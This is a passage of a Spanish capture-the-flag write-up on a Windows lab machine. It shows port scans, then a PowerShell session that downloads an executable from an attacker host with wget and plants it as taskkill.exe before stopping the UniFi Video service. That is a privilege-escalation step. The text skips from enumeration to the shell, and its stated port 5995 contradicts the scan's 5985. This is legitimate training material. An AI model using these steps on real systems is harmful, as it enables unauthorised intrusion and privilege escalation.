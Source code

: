 Logramos identificar al menos tres puertos. Realicemos el escaneo ahora con masscan:

```
root@laptop:~# masscan -e tun0 -p0-65535,U:0-65535 --rate 500 10.10.10.104

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-15 03:07:13 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131072 ports/host]
Discovered open port 5985/tcp on 10.10.10.104
Discovered open port 443/tcp on 10.10.10.104
Discovered open port 3389/tcp on 10.10.10.104
Discovered open port 80/tcp on 10.10.10.104
```

Como podemos ver, tenemos abiertos los mismos puertos que nmap descubrió más uno nuevo, 5995/tcp. Continuemos con la enumeración de servicios.

# Services Identification

Lanzamos un nmap ahora con destino a los 4 puertos descubiertos:

```
root@laptop:~# nmap -p80,443,3389,5985 -A -T4 10.10.10.104
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-14 21:48 CST
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 21:49 (0:00:00 remaining)
Nmap scan report for 10.10.10.104
Host is up (0.20s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
|_ssl-date: 2019-02-15T03:49:08+00:00; 0s from scanner time.
| tls-alpn:
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Not valid before: 2019-02-14T01:47:31
|_Not valid after:  2019-08-16T01:47:31
|_ssl-date: 2019-02-15T03:49:07+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|10 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_10:1607
Aggressive OS guesses: Microsoft Windows Server 2016 (90%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService